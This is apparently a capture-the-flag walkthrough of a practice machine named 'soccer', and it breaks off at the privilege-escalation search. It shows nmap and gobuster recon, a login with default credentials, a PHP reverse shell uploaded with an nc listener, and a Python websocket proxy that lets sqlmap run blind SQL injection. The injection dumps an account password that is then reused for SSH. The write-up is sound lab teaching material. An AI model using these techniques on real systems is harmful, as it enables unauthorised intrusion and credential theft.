







# soccer

| Hostname   | Difficulty | Points |
| ---        | ---        | ---    |
| soccer       |            |        |

Machine IP: 10.10.10.xx :

```bash
TARGET=10.10.11.194       # soccer IP address
ATTACKER=10.10.14.13     # attacker IP
```

## Initial Reconnaissance

### Ports and services

```shell
nmap -sV -sC -A -T4 $TARGET
```

Result:

```text
Nmap scan report for 10.10.11.194
Host is up (0.015s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Mon, 01 May 2023 10:14:22 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Mon, 01 May 2023 10:14:22 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.93%I=7%D=5/1%Time=644F90F9%P=x86_64-pc-linux-gnu%r(inf
SF:ormix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\
SF:n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
SF:0close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\n
SF:Content-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCon
SF:tent-Length:\x20139\r\nDate:\x20Mon,\x2001\x20May\x202023\x2010:14:22\x
SF:20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=
SF:\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</h
SF:ead>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HTT
SF:POptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Poli
SF:cy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r
SF:\nDate:\x20Mon,\x2001\x20May\x202023\x2010:14:22\x20GMT\r\nConnection:\
SF:x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<met
SF:a\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Ca
SF:nnot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HTT
SF:P/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-sr
SF:c\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20t
SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Mon,\x
SF:2001\x20May\x202023\x2010:14:22\x20GMT\r\nConnection:\x20close\r\n\r\n<
SF:!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"ut
SF:f-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x
SF:20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r
SF:(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnecti
SF:on:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/1%OT=22%CT=1%CU=30664%PV=Y%DS=2%DC=T%G=Y%TM=644F910B
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=109%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST11
OS:NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   16.09 ms 10.10.14.1
2   15.92 ms 10.10.11.194

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.75 seconds
```

There are mainly 2 services identified, and 1 unknown. The OS is mostly Ubuntu.

### Service HTTP on port 80

As the title suggest in nmap scan, there a redirection from the IP address to `soccer.htb` :

```shell
curl -v http://$TARGET
```

Result:

```text
*   Trying 10.10.11.194:80...
* Connected to 10.10.11.194 (10.10.11.194) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.11.194
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 301 Moved Permanently
< Server: nginx/1.18.0 (Ubuntu)
< Date: Mon, 01 May 2023 10:18:15 GMT
< Content-Type: text/html
< Content-Length: 178
< Connection: keep-alive
< Location: http://soccer.htb/
< 
```

So we can add the followinf to `/etc/hosts` :

```text
10.10.11.194    soccer.htb
```

We can now access the web site :

```shell
firefox http://$TARGET
```


We can enumerate this site :

```shell
gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

Result:

```text
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/01 12:41:02 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```

There is login page :



This is Tiny File Manager

Home page ("CCP Programmers"): [https://tinyfilemanager.github.io/](https://tinyfilemanager.github.io/)

Visiting the product home page on github ([https://github.com/prasathmani/tinyfilemanager](https://github.com/prasathmani/tinyfilemanager)), we find some interesting credentials :

> Default username/password: admin/admin@123 and user/12345.

### Information founds

Services :

| port | service | Software/version |
| ---  | ---     | ---              |
| 22   | SSH     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0) |
| 80   | HTTP    | nginx 1.18.0 (Ubuntu) |
| 9091 | HTTP ??   | ?? |

## Initial access

### Exploitation

Using this default credential int the Tiny File Manager login page allow the access :



From this interface, it's possible to upload files :



Tiny File Manager is a PHP tool, so we can upload a PHP reverse shell.

From [https://www.revshells.com/](https://www.revshells.com/):

- Listener type: nc
- Reverse
  - OS: Linux
  - payload : PHP PentestMonkey

Using Tiny File Manager :
- go to 'tiny/upload' folder
- create a new item, a file, and name it `shell.php`
- edit it, and paste the content of the payload

NB: only /tiny/uploads folder is writable.

start the listener :

```shell
nc -lvnp 9001
```

and call the payload URL (http://soccer.htb/tiny/uploads/shell.php) to get a shell:

Result:

```text
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.194.
Ncat: Connection from 10.10.11.194:35102.
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 11:16:02 up  1:04,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1044): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Current user is `www-data`.

## Post-Exploitation

### Host Reconnaissance

The HTTP server Nginx have 2 configurations :

```shell
www-data@soccer:/etc/nginx/sites-enabled$ ls
```

Result:

```text
default
soc-player.htb
```

default :

```text
server {
	listen 80;
	listen [::]:80;
	server_name 0.0.0.0;
	return 301 http://soccer.htb$request_uri;
}

server {
	listen 80;
	listen [::]:80;

	server_name soccer.htb;

	root /var/www/html;
	index index.html tinyfilemanager.php;
		
	location / {
               try_files $uri $uri/ =404;
	}

	location ~ \.php$ {
		include snippets/fastcgi-php.conf;
		fastcgi_pass unix:/run/php/php7.4-fpm.sock;
	}

	location ~ /\.ht {
		deny all;
	}
}
```

and soc-player.htb :

```text
server {
	listen 80;
	listen [::]:80;

	server_name soc-player.soccer.htb;

	root /root/app/views;

	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}
}
```

So there is another site accessible at : [http://soc-player.soccer.htb](http://soc-player.soccer.htb).

We can see it in network connections :

```shell
netstat -tl
```

Result:

```text
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN     
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN     
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN 
```

There is also a mysql service listening.

The site `/root/app/views` is using sources in folder `soc-player.soccer.htb`, but it is not accessible with current user.

### soc-player.soccer.htb

In /etc/hosts, we can add this new hostname :

```text
0.10.11.194    soccer.htb
10.10.11.194    soc-player.soccer.htb
```

We can now browse this site with a web browser :

```shel
firefox http://soc-player.soccer.htb
```

Home :


Match :



Login :


Signup :



We can signup with :

- email: john@doe.com
- username: john
- Password: Password123

And then login with :

- email: john@doe.com
- Password: Password123



When using this field, we can notice this is using a websocket to query information:



This is requesting throw the field `id`. The code for this is in the web page :

```js
<script>
    var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
    window.onload = function () {
    
    var btn = document.getElementById('btn');
    var input = document.getElementById('id');
    
    ws.onopen = function (e) {
        console.log('connected to the server')
    }
    input.addEventListener('keypress', (e) => {
        keyOne(e)
    });
    
    function keyOne(e) {
        e.stopPropagation();
        if (e.keyCode === 13) {
            e.preventDefault();
            sendText();
        }
    }
    
    function sendText() {
        var msg = input.value;
        if (msg.length > 0) {
            ws.send(JSON.stringify({
                "id": msg
            }))
        }
        else append("????????")
    }
    }
    
    ws.onmessage = function (e) {
    append(e.data)
    }
    
    function append(msg) {
    let p = document.querySelector("p");
    // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
    // p.style.color = randomColor;
    p.textContent = msg
    }
</script>
```

This is using the port 9091 discovered with nmap during initial reconnaissance. This will perform request with a JSON dataset such as :

```json
{"id":"123456"}
```

If the ticket referenced in `id` is not found, it will return `Ticket Doesn't Exist`.

This seem to be an information searched in a database, maybe the mysql previously noticed.

### sqlmap over websocket

There is a chance there is a possible injection through this websocket. Since the result is always `Ticket Doesn't Exist`, that would be blind. An interesting article can be found on internet :

[Automating Blind SQL injection over WebSocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

It provide a python script to communicate between sqlmap and the target.

Let's try it !

Setup environnemnt ans install some prerequisites :

```shell
virtualenv -p python3 .venv
. .venv/bin/activate
pip install websocket-client
```

The article script : 

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

We have to adapt and change the target server (as provided from the javascript code):

```python
# ws_server = "ws://localhost:8156/ws"
ws_server = "ws://soc-player.soccer.htb:9091/"
```
And correc parameter name:

```python
	#data = '{"employeeID":"%s"}' % message
    data = '{"id":"%s"}' % message
```

Execute the script :

```shell
python3 ./websocket_proxy.py
```

Result:

```text
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```

So now we can execute sqlmap and use that proxy, supposing the DBMS, and the parameter name:

```shell
sqlmap -u "http://localhost:8081/?id=1" --dbms=MySQL -p id
```

Result:

```text
[INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[INFO] target URL appears to be UNION injectable with 3 columns
sqlmap identified the following injection point(s) with a total of 74 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 8775 FROM (SELECT(SLEEP(5)))cQdK)
---
[INFO] the back-end DBMS is MySQL
```

So we have a SQL injection poiont here.

We can now enumerate the databases :

```shell
sqlmap -u "http://localhost:8081/?id=1" --dbms=MySQL -p id --dbs
```

Result:

```text
...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Then tables in the 'soccer_db' database :

```shell
sqlmap -u "http://localhost:8081/?id=1" --dbms=MySQL -p id -D soccer_db --tables
```

Result:

```text
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Then we can dump the 'accounts' table (supposing there are not too manu accounts)

```shell
sqlmap -u "http://localhost:8081/?id=1" --dbms=MySQL -p id -D soccer_db -T accounts --dump
```

Result:

```text
[INFO] retrieved: email
[INFO] retrieved: username
[INFO] retrieved: password
...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

We can use this credential on the login form, this is valid but do not seem to get more access.

Instead, this credential is also valid for SSH access:

```shell
ssh player@$TARGET
```

Result:

```text
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon May  1 14:04:17 UTC 2023

  System load:           1.29
  Usage of /:            70.8% of 3.84GB
  Memory usage:          26%
  Swap usage:            0%
  Processes:             233
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:89c6

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Dec 13 07:29:10 2022 from 10.10.14.19
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
player@soccer:~$ 
```

### Privilege Escalation

As often, we can search for setuid binaries (that would also be revealed by linpeas for example) :

```shell
find / -perm -u=s -type f 2>/dev/null
```

Result:

```text
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
